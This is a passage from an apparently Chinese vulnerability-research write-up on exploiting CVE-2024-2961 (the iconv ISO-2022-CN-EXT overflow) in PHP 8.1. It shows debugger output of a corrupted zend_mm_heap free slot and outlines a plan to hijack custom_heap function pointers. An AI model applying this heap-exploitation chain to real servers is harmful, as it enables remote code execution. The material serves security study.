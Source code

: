 ```
$ python3 poc1.py && gdb ./php8.1-8.1.2/fpm-build/sapi/cli/php# 最终断点停在执行完处理convert.iconv.UTF-8.ISO-2022-CN-EXT的函数   0x5555557dfae5 <_php_stream_fill_read_buffer+309>    call   qword ptr [rax] ? 0x5555557dfae7 <_php_stream_fill_read_buffer+311>    cmp    eax, 2   0x5555557dfaea <_php_stream_fill_read_buffer+314>    je     _php_stream_fill_read_buffer+256                <_php_stream_fill_read_buffer+256>    ↓   0x5555557dfab0 <_php_stream_fill_read_buffer+256>    pxor   xmm0, xmm0   0x5555557dfab4 <_php_stream_fill_read_buffer+260>    movaps xmmword ptr [r12], xmm0   0x5555557dfab9 <_php_stream_fill_read_buffer+265>    mov    rbp, qword ptr [rbp + 0x18]   0x5555557dfabd <_php_stream_fill_read_buffer+269>    test   rbp, rbp   0x5555557dfac0 <_php_stream_fill_read_buffer+272>    je     _php_stream_fill_read_buffer+448                <_php_stream_fill_read_buffer+448>    ↓   0x5555557dfb70 <_php_stream_fill_read_buffer+448>    mov    rbp, qword ptr [r14]   0x5555557dfb73 <_php_stream_fill_read_buffer+451>    test   rbp, rbp   0x5555557dfb76 <_php_stream_fill_read_buffer+454>    jne    _php_stream_fill_read_buffer+502                <_php_stream_fill_read_buffer+502>─────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]─────────────────────────────────────────────────────────────────────────────────In file: /home/ubuntu/CVE-2024-2961/php8.1-8.1.2/main/streams/streams.c:577   572   573                         /* wind the handle... */   574                         for (filter = stream->readfilters.head; filter; filter = filter->next) {   575                                 status = filter->fops->filter(stream, filter, brig_inp, brig_outp, NULL, flags);   576 ? 577                                 if (status != PSFS_PASS_ON) {   578                                         break;   579                                 }   580   581                                 /* brig_out becomes brig_in.   582                                  * brig_in will always be empty here, as the filter MUST attach any un-consumed buckets# freeslot的定义如下define freeslot    set $phpheap = (struct _zend_mm_heap *) 0x7ffff5200040    p $phpheap->free_slot[15]endpwndbg> freeslot$2 = (zend_mm_free_slot *) 0x7ffff528b200pwndbg> x/32gx 0x7ffff528b2000x7ffff528b200: 0x00007ffff528b300  0x00000000000000000x7ffff528b210: 0x0000000000000000  0x00000000000000000x7ffff528b220: 0x0000000000000000  0x00000000000000000x7ffff528b230: 0x0000000000000000  0x00000000000000000x7ffff528b240: 0x0000000000000000  0x00000000000000000x7ffff528b250: 0x0000000000000000  0x00000000000000000x7ffff528b260: 0x0000000000000000  0x00000000000000000x7ffff528b270: 0x0000000000000000  0x00000000000000000x7ffff528b280: 0x0000000000000000  0x00000000000000000x7ffff528b290: 0x0000000000000000  0x00000000000000000x7ffff528b2a0: 0x0000000000000000  0x00000000000000000x7ffff528b2b0: 0x0000000000000000  0x00000000000000000x7ffff528b2c0: 0x0000000000000000  0x00000000000000000x7ffff528b2d0: 0x0000000000000000  0x00000000000000000x7ffff528b2e0: 0x0000000000000000  0x00000000000000000x7ffff528b2f0: 0x0000000000000000  0x2a241b0000000000pwndbg>0x7ffff528b300: 0x00007ffff528b148  0x42424242424242420x7ffff528b310: 0x4242424242424242  0x4242424242424242
```  
  
从上面的内存布局可以看出，程序已经按照我们的设想触发漏洞，溢出覆盖了free_slots  
的指针。  
#### 2.3.3.4 最终利用  
  
最终的利用思路我们参考了公开的PoC中的利用思路，即控制_zend_mm_heap  
结构体中的custom_heap  
。但是，该利用思路有个前置条件，需要将_zend_mm_heap->use_custom_heap  
设置为非0值。此外，我们不能仅仅修改custom_heap._free  
，还需要同时设置custom_heap._malloc  
和custom_heap._realloc  
。因为当_zend_mm_heap->use_custom_heap  
非0时，这三个函数皆会调用其custom  
函数。  
  
基于之前的利用思路，我们的利用链要修改/新增以下步骤（这里需要注意，libc地址和php的_zend_mm_heap  
地址都为已知信息。）：  
1. 因为0x7ffff528b300  
指向了0x7ffff528b148  
，所以我们需要控制该地址，恰好0x7ffff528b100  
是第一步中申请到的第一个堆，所以我们需要让step1_malloc_step2_free  
指向_zend_mm_heap  
段的地址。  
  